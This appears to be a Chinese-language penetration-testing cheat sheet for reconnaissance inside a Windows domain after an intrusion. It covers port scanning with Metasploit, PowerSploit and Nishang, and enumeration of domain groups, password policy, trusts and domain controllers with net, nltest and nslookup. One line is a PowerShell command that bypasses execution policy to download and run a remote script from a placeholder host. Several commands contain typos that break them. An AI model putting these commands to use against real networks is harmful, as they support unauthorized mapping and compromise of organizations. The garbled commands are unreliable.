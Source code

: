 - 常规TCP/UDP

```
ScanLine
```

### 扫描域内端口

- telnet
- S扫描器
- Metasploit

```
auxiliary/scanner.portscan/tcp
```

- PowerSploit的INvoke-portscan.ps1脚本

```
powershell.exe -nop -exec -bypass -c "IEX(New-ObjectNet.Webclint).DownloadString('http:xxx.com/a.ps1');Invoke-Portscan"
```

- Nishang的Invoke-PortScan模块

```
Invoke-Portscan -StartAddress 192.168.250.1 -EndAddredd 192.168.250.255 -ResolveHost
```

### 收集域内信息

```
net view /domain 查询域

net view /domain:HACKE

net group /domain 用户组列表

net group "domain computer" domain 查询所有域成员计算机列表

net accounte /domain 域密码策略

nltest /domain_trusts 域信任信息
```

### 查找域控制器

- 查看域控制器机器名

```
nltest /DCLIST:hacke
```

- 查看域控制器主机名

```
NSlookup -type=SRV _ldap._tcp
```
